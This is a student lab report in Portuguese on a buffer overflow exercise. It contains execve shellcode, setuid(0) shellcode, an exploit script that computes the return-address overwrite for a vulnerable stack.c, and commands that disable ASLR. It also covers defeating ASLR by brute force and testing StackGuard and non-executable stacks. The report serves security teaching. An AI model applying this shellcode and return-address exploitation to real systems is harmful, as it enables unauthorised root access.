


# Laboratório 4 - Buffer Overflow

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

Antes de realizar a primeira tarefa, desligamos algumas contra-medidas do Ubuntu para dificultar o ataque por Buffer Overflow, utilizando os respectivos comandos no terminal:

- Address Space Randomization

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

- Configurando /bin/sh (Ubuntu 16.04 VM only)

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## Tarefa 1 - Executar o código shell

Nesta tarefa executamos o seguinte código fornecido no roteiro para executar uma shell

```c
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x50" /* Line 2: pushl %eax */
"\x68""//sh" /* Line 3: pushl $0x68732f2f */
"\x68""/bin" /* Line 4: pushl $0x6e69622f */
"\x89\xe3" /* Line 5: movl %esp,%ebx */
"\x50" /* Line 6: pushl %eax */
"\x53" /* Line 7: pushl %ebx */
"\x89\xe1" /* Line 8: movl %esp,%ecx */
"\x99" /* Line 9: cdq */
"\xb0\x0b" /* Line 10: movb $0x0b,%al */
"\xcd\x80" /* Line 11: int $0x80 */
;
int main(int argc, char **argv)
{
char buf[sizeof(code)];
strcpy(buf, code);
((void(*)( ))buf)( );
}
```

O resultado foi a exibição de uma nova shell



## Tarefa 2 - Explorando a vulnerabilidade

O objetivo da tarefa 2 era explorar a vulnerabilidade do programa fornecido **stack.c** através do script em python **exploit.py,** afim de exceutar uma shell com o privilégio root. O primeiro passo para a realização do ataque era descobrir o endereço de retorno da função bof ( ), portanto o programa **stack.c** foi compilado e debugado com o gcc, inserindo um breakpoint na função bof ( ).

Precisamos que o endereço de retorno seja sobrescrito para que o nosso código que ataque seja executado ao retornar para a função que chamou a função de cópia do arquivo badfile. Para isto precisamos saber o endereço base, EBP, que é utilizado para encontrar o frame pointer anterior. No ataque primeiro precisamos definir o offset para que o endereço de retorno possa ser encontrado, o seu tamanho será EBP - buffer + 4, já que a stack cresce de cima para baixo e a posição de escrita do endereço de retorno é imediatamente anterior à do EBP. Partindo disto conseguimos encontrar o endereço de retorno somando: buffer + offset + overflow.



Em seguida, os valores do registrador EBP e a variável buffer foram lidos.


Com esses valores, podemos alterar o script **exploit.py** para que gerasse o arquivo **badfile** contendo o endereço de retorno correto:

```python
##################################################################
buff = 0xbfffe840
ebp = 0xbfffe938
offset = ebp - buff + 4            # replace 0 with the correct value

ret    = buff + offset + 100 # replace 0xAABBCCDD with the correct value

content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################
```

Em seguida, executamos o **exploit.py** no terminal para gerar o badfile. Por fim, executamos também o programa **stack** e obtivemos acesso à shell em modo privilegiado (root):


## Tarefa 3 - Invalidando a contra-medida da shell dash

Para superar esta medida, precisamos antes definir o UID para 0 antes de iniciar o execve().

Primeiro compilamos o programa dash_shell_test sem utilizar a definição do UID para 0 e obtivemos este resultado


Ao descomentar o setuid(0) no código, compilamos novamente o programa e o executamos. Podemos verificar que conseguimos obter acesso à shell com permissão de super usuário, uid=0:


Por fim, inserimos as seguintes instruções no código **exploit.py** para que o ataque fosse realizado no programa vulnerável **stack.c** quando o */bin/sh* está vinculado ao */bin/dash:*

```python
"\x31\xc0"  # Line 1: xorl %eax,%eax
"\x31\xdb"  # Line 2: xorl %ebx,%ebx
"\xb0\xd5"  # Line 3: movb $0xd5,%al
"\xcd\x80"  # Line 4: int $0x80
```

Com isso, executamos novamente o programa stack como na tarefa 2 e podemos observar que foi possível acessar a shell com os privilégios de um user root real:


## Tarefa 4 - Invalidando a contra medida de aleatoriedade de endereços

Primeiramente, desligamos a Address Space Randomization do Ubuntu e tentamos novamente executar a tarefa 2, obtendo um Segmentation Fault:


Em seguida, executamos o código fornecido no roteiro para tentar acessar a shell por meio de força bruta, já que o endereço base da stack agora tem 19 bits de entropia, o resultado da execução de todas as possibilidades do brute-force conseguiu ****acertar o endereço que está no arquivo badfile.


## Tarefa 5 - Ativando a proteção StackGuard

Para ativar esta proteção basta executar o programa sem o parâmetro `-fno-stack-protector` que o compilador GCC automaticamente a define por padrão. Ao repetir a tarefa 2 notamos um erro proveniente do mecanismo de defesa:


## Tarefa 6 - Ativando a proteção Non-executable Stack

Ao ativar a proteção do gcc `noexecstack` tornamos impossível a execução de código através da stack, executamos novamente a tarefa 2, porém obtivemos uma mensagem de segmentation fault como mostra a imagem a seguir:


